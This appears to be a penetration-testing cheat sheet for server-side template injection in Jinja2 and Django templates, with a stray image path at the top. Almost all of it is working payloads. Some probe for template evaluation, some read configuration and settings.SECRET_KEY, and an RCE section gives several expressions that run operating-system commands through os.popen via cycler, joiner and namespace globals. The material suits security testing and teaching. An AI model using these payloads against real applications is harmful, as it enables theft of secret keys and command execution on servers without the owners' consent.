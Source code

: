 * `{{7*7}} = Error`
* `${7*7} = ${7*7}`
* `{{foobar}} Nothing`
* `{{4*4}}[[5*5]]`
* `{{7*'7'}} = 7777777`
* `{{config}}`
* `{{config.items()}}`
* `{{settings.SECRET_KEY}}`
* `{{settings}}`
* `<div data-gb-custom-block data-tag="debug"></div>`

```
{% raw %}
{% debug %}
{% endraw %}


{{settings.SECRET_KEY}}
{{4*4}}[[5*5]]
{{7*'7'}} would result in 7777777
```

### RCE

```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}

# Or in the shotest versions:
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```



## References

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2" %}
